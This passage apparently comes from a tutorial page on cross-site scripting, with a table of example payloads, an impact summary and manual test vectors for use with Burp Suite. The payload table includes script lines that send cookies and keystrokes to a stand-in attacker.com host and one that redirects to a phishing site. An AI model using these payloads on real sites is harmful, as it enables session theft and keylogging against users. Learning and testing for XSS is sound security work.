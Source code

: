 ✔️ The script runs because the DOM is manipulated directly without validation.

---

## 🎯 Attack Payload Examples

| Purpose      | Payload                                                                                     |
| ------------ | ------------------------------------------------------------------------------------------- |
| Alert box    | `<script>alert(1)</script>`                                                                 |
| Cookie theft | `<script>fetch('https://attacker.com?c='+document.cookie)</script>`                         |
| Redirection  | `<script>location='https://phishing.com'</script>`                                          |
| Keylogging   | `<script>document.onkeypress=function(e){fetch('http://attacker.com?key='+e.key)}</script>` |
| Webcam       | Use JS to access `navigator.mediaDevices.getUserMedia` (with permissions)                   |

---

## 🔐 Impact of XSS

| Attack                | Impact                                            |
| --------------------- | ------------------------------------------------- |
| **Session hijacking** | Steal session cookies → impersonate users         |
| **Account takeover**  | Access admin/user accounts                        |
| **Defacement**        | Alter website content                             |
| **Phishing**          | Create fake login pages                           |
| **CSRF chaining**     | Combine with CSRF to perform unauthorized actions |
| **Malware delivery**  | Inject malware into browsers                      |

---

## ⚒️ Testing for XSS

### Manual Testing (Inject Payloads)

* `<script>alert(1)</script>`
* `<img src=x onerror=alert(1)>`
* `<svg onload=alert(1)>`
* `<iframe src=javascript:alert(1)>`
* `<body onload=alert(1)>`

### Use Burp Suite:

1. Intercept request
2. Inject payloads in params
3. Forward and analyze response
